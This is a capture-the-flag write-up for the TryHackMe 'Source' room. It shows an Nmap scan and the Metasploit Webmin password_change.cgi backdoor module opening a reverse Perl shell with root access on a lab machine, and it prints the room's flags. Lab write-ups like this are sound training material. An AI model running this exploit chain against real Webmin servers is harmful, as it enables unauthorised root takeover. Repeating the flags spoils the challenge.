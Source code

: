 ## Source - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/source)

<i>Enumerate and root the box attached to this task. Can you discover the source of the disruption and leverage it to take control?</i>

**IP: 10.10.25.44**

**Replace [YOUR-THM-IP] with your own machine IP assigned by TryHackMe.**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation <br>

**Tools Used**: Nmap, Metasploit<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap scan.

  ```
  nmap -sC -sV -T5 -p- 10.10.25.44

  PORT      STATE    SERVICE      VERSION
  22/tcp    open     ssh          OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
  |   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
  |_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
  1112/tcp  filtered msql
  1698/tcp  filtered rsvp-encap-1
  8553/tcp  filtered unknown
  10000/tcp open     http         MiniServ 1.890 (Webmin httpd)
  |_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
  11861/tcp filtered unknown
  18553/tcp filtered unknown
  19794/tcp filtered unknown
  20476/tcp filtered unknown
  21492/tcp filtered unknown
  27722/tcp filtered unknown
  30611/tcp filtered unknown
  34458/tcp filtered unknown
  36460/tcp filtered unknown
  46287/tcp filtered unknown
  50727/tcp filtered unknown
  64107/tcp filtered unknown
  65240/tcp filtered unknown
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```
  
- I visited the server and tried some default credentials but nothing worked, so I started Metasploit to look for some exploits before googling them manually.

---

## ⚙️ Shell Access

- Wellp, Metasploit got my back, no need for googling. There's a module that will give us backdoor access. `exploit/linux/http/webmin_backdoor`

  ```
  msfconsole

  msf6 > search webmin
  
  Matching Modules
  ================
  
     #   Name                                           Disclosure Date  Rank       Check  Description
     -   ----                                           ---------------  ----       -----  -----------
     0   exploit/unix/webapp/webmin_show_cgi_exec       2012-09-06       excellent  Yes    Webmin /file/show.cgi Remote Command Execution
     1   auxiliary/admin/webmin/file_disclosure         2006-06-30       normal     No     Webmin File Disclosure
     2   exploit/linux/http/webmin_file_manager_rce     2022-02-26       excellent  Yes    Webmin File Manager RCE
     3   exploit/linux/http/webmin_package_updates_rce  2022-07-26       excellent  Yes    Webmin Package Updates RCE
     4     \_ target: Unix In-Memory                    .                .          .      .
     5     \_ target: Linux Dropper (x86 & x64)         .                .          .      .
     6     \_ target: Linux Dropper (ARM64)             .                .          .      .
     7   exploit/linux/http/webmin_packageup_rce        2019-05-16       excellent  Yes    Webmin Package Updates Remote Command Execution
     8   exploit/unix/webapp/webmin_upload_exec         2019-01-17       excellent  Yes    Webmin Upload Authenticated RCE
     9   auxiliary/admin/webmin/edit_html_fileaccess    2012-09-06       normal     No     Webmin edit_html.cgi file Parameter Traversal Arbitrary File Access
     10  exploit/linux/http/webmin_backdoor             2019-08-10       excellent  Yes    Webmin password_change.cgi Backdoor
     11    \_ target: Automatic (Unix In-Memory)        .                .          .      .
     12    \_ target: Automatic (Linux Dropper) 
  ```
  
- Set all parameters and then run it, it will give you root shell.

  ```
  msf6 exploit(linux/http/webmin_backdoor) > set lhost [YOUR-THM-IP]
  lhost => [YOUR-THM-IP]
  msf6 exploit(linux/http/webmin_backdoor) > set rhosts 10.10.25.44
  rhosts => 10.10.25.44
  msf6 exploit(linux/http/webmin_backdoor) > set SSL true
  [!] Changing the SSL option's value may require changing RPORT!
  SSL => true
  msf6 exploit(linux/http/webmin_backdoor) > run
  
  [*] Started reverse TCP handler on [YOUR-THM-IP]:4444 
  [*] Running automatic check ("set AutoCheck false" to disable)
  [+] The target is vulnerable.
  [*] Configuring Automatic (Unix In-Memory) target
  [*] Sending cmd/unix/reverse_perl command payload
  [*] Command shell session 1 opened ([YOUR-THM-IP]:4444 -> 10.10.25.44:42180) at 2025-05-14 11:14:40 +0100
  
  shell
  [*] Trying to find binary 'python' on the target machine
  [*] Found python at /usr/bin/python
  [*] Using `python` to pop up an interactive shell
  [*] Trying to find binary 'bash' on the target machine
  [*] Found bash at /bin/bash
  
  whoami
  whoami
  root
  root@source:/usr/share/webmin/# 
  ```
  
- Since we have a shell, let's get those flags.

---

## 🧍 Flags

- Since we are already root, we have accesss to everything. Finding those flags is pretty simple.

  ```
  root@source:/usr/share/webmin/# cd
  cd
  
  root@source:~# ls 
  ls 
  root.txt
  
  root@source:~# cat root.txt
  cat root.txt
  THM{UPDATE_YOUR_INSTALL}
  
  root@source:/# cd home
  cd home
  
  root@source:/home# ls
  ls
  dark
  
  root@source:/home# cd dark
  cd dark
  
  root@source:/home/dark# ls
  ls
  user.txt  webmin_1.890_all.deb
  
  root@source:/home/dark# cat user.txt
  cat user.txt
  THM{SUPPLY_CHAIN_COMPROMISE}
  ```

---

## 🏁 Flags

- **User Flag**: `THM{SUPPLY_CHAIN_COMPROMISE}`
- **Root Flag**: `THM{UPDATE_YOUR_INSTALL}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing.`

- What did I learn?
  `Practiced Metasploit.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
